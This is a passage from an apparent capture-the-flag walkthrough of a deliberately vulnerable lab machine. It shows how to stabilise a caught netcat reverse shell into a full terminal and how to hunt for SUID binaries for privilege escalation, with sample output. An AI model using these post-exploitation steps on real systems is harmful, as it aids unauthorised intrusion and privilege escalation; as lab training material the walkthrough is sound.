 ```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

We should get this output:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ export TERM=xterm
export TERM=xterm
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@ip-10-10-14-221:~# stty raw -echo; fg
nc -lvnp 1234

www-data@vulnuniversity:/$
```

Click the 'Enter' key if the terminal gets "stuck" after this procedure.

Run the following to discover the files with the SUID bit set:

```bash
www-data@vulnuniversity:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
